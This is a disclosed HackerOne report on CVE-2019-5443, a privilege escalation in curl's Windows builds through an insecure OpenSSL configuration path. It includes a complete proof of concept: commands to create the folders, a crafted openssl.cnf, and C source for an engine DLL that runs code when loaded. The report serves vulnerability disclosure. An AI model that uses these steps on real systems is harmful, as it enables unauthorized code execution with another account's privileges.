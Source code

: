 # CVE-2019-5443: Windows Privilege Escalation: Malicious OpenSSL Engine

## Report Details
- **Report ID**: 608577
- **URL**: https://hackerone.com/reports/608577
- **State**: Closed
- **Severity**: high
- **Submitted**: 2019-06-12T02:21:14.871Z
- **Disclosed**: 2019-06-29T18:24:27.107Z

## Reporter
- **Username**: mirchr
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: curl

## Vulnerability Information
## Summary:
The curl windows binaries are built with OpenSSL libraries and have an insecure path for the OPENSSLDIR build parameter. This path is set to c:\usr\local\ssl. When curl is executed it attempts to load openssl.cnf from this path. By default on windows, low privileged users have the authority to create folders under c:\. A low privileged user can create a custom openssl.cnf file to load a malicious OpenSSL Engine(library). The result is arbitrary code execution with the full authority of the account executing the curl binary.


Version tested.
curl-7.65.1_1-win64

OS:
Windows 10 

## Steps To Reproduce:
All steps are executed as a low privileged(non-admin) user unless otherwise noted

 1. As a low privileged user create the following folder c:\usr\local\ssl
```
mkdir c:\usr
mkdir c:\usr\local
mkdir c:\usr\local\ssl
```

 2. Create an openssl.cnf file with the following contents.

```
openssl_conf = openssl_init
[openssl_init]
engines = engine_section
[engine_section]
woot = woot_section
[woot_section]
engine_id = woot
dynamic_path = c:\\stage\\calc.dll
init = 0
```

 3. Create the c:\stage folder
```
mkdir c:\stage
````

 4. Create and compile a malicious OpenSSL Engine library. For this PoC we will execute the Windows calculator.
````
/* Cross Compile with
   x86_64-w64-mingw32-g++ calc.c -o calc.dll -shared
*/
#include <windows.h>
BOOL WINAPI DllMain(
    HINSTANCE hinstDLL,
    DWORD fdwReason,
    LPVOID lpReserved )
{
    switch( fdwReason )
    {
        case DLL_PROCESS_ATTACH:
            system("calc");
            break;
        case DLL_THREAD_ATTACH:
         // Do thread-specific initialization.
            break;
        case DLL_THREAD_DETACH:
         // Do thread-specific cleanup.
            break;
        case DLL_PROCESS_DETACH:
         // Perform any necessary cleanup.
            break;
    }
    return TRUE;  // Successful DLL_PROCESS_ATTACH.
}
```

 5. Copy calc.dll to c:\stage
`
copy calc.dll c:\stage
`
 6. Execute curl.exe as a different user.

## Supporting Material/References:
  * PoC image showing curl loading a custom calc.dll and executing calc.exe
{F507228}

## Impact

A malicious local user(or potentially malware) with access to a Windows workstation or server with curl installed has the ability to silently plant a custom OpenSSL Engine library that contains arbitrary code. Every time curl is executed this library will be loaded and the code executed with the full authority of the account executing it resulting in the elevation of privileges.

## Attachments
- curl-exec-calc
